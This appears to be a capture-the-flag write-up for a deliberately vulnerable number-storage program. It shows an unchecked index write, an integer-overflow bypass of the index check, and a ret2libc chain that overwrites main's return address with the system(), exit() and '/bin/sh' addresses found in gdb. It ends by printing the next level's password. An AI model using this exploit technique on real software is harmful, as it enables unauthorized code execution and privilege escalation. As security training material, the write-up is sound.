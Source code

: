 
# Welcome to wil's crappy number storage service !

## Program summary
On this level we are provided with a program which has the function of saving passwords at a given index in the stack. As usual we will focus on vulnerabilities.

Input restrictions :

- Valid command
- The index must have a rest after a **% 3**.
- The **number >> 0x18 == 0xb7**, should not satisfy this condition.

The **`store_number()`** function is called with the buffer addr as argument which contains all the numbers saved by storage. Below I show you several small sections in the assembly code, the index input is saved at **`$ebp-0xc`** and then an assignment takes place with the number.

```
08048630 <store_number>:
...
8048666:	e8 7c ff ff ff       	call   80485e7 <get_unum>
804866b:	89 45 f4             	mov    DWORD PTR [ebp-0xc],eax
...
80486c2:	8b 45 f4             	mov    eax,DWORD PTR [ebp-0xc]
80486c5:    c1 e0 02           		shl    eax,0x2
80486c8:	03 45 08             	add    eax,DWORD PTR [ebp+0x8]
80486cb:	8b 55 f0             	mov    edx,DWORD PTR [ebp-0x10]
80486ce:	89 10                	mov    DWORD PTR [eax],edx
```

## Vulnerability

The index input allows to write on a very wide range of the stack without verification upstream, it's an excellent source of vulnerability, if we manage to point it in the right place. 

## Attack design

1. Get Offset

Now we need to find the exact OFFSET to inject our malicious code, that is to say the address of the environment variable that we will create with shellcode. What we will do in order to get the OFFSET is to locate the ret addr of main and calculate the distance from the start of the buffer which serves as a number storage manager.
```
(gdb) b store_number
Breakpoint 1 at 0x8048636
(gdb) backtrace
#0  0x08048636 in store_number ()
#1  0x080488ef in main ()
(gdb) info frame 1
Stack frame at 0xffffd620:
 eip = 0x80488ef in main; saved eip 0xf7e45513
 caller of frame at 0xffffd430
 Arglist at 0xffffd618, args: 
 Locals at 0xffffd618, Previous frame's sp is 0xffffd620
 Saved registers:
  ebx at 0xffffd60c, ebp at 0xffffd618, esi at 0xffffd610, edi at 0xffffd614, eip at 0xffffd61c
(gdb) x $ebp+0x08
0xffffd430:	0xffffd454
```
As explained recently I read on **`$ebp-0x08`** since the addr of the buffer number storage manager resides there.

Buffer that holds numbers 0xffffd454 = 4294956116
EIP location in main stack frame 0xffffd61c = 4294956572

`4294956572 - 4294956116 = 456`

OFFSET will be **456**

`456 >> 2 = 114 or 456 / 4 = 114`

However 114 is not accepted as input since: **114 % 3 = 0**.

But this is not really a problem because in itself, our input is modified after the preflight check, which means that we can play with an overflow. Let's enter the right value so that it overflows with an SHL of 2 to fall back to the initial value 114.
```c
if ((uVar2 % 3 == 0) || (uVar1 >> 0x18 == 0xb7))
{
    puts(" *** ERROR! ***");
    puts("   This index is reserved for wil!");
    puts(" *** ERROR! ***");
    uVar3 = 1;
}
else
{
    *(uint *)(uVar2 * 4 + param_1) = uVar1;
    uVar3 = 0;
}
```

Overflow exploit :

```
unsigned int overflowVal = (std::pow(2, 32) / 4) + 114; -> 1073741938
4 * overflowVal = 456
```


3. Retrieve the **`system()`** address :
```c
(gdb) p system
$1 = {<text variable, no debug info>} 0xf7e6aed0 <system>
```

4. Retrieve **`exit()`** address :
```c
(gdb) p exit
$1 = {<text variable, no debug info>} 0xf7e5eb70 <exit>
```

5. Find **`"/bin/sh"`** string address in libc-2.15.so using **`find`** command :
```
(gdb) info proc map
process 1857
Mapped address spaces:
	Start Addr   End Addr       Size     Offset objfile
	...
	0xf7e2c000 0xf7fcc000   0x1a0000        0x0 /lib32/libc-2.15.so
	...
(gdb) find 0xf7e2c000, 0xf7fcc000, "/bin/sh"
0xf7f897ec
1 pattern found.
```

Now we are going to store these 3 addresses necessary for the execution of our attack with this faulty storage system.

```
store
...
number 4159090384
index 1073741938
...
number 4159040368
index 115
...
number 4160264172
index 116
```

```
$ cat /home/users/level08/.pass            
7WJ6jFBzrcjEYXudxnM3kdW7n3qyxR6tk2xGrkSC
```

> Flag : 7WJ6jFBzrcjEYXudxnM3kdW7n3qyxR6tk2xGrkSC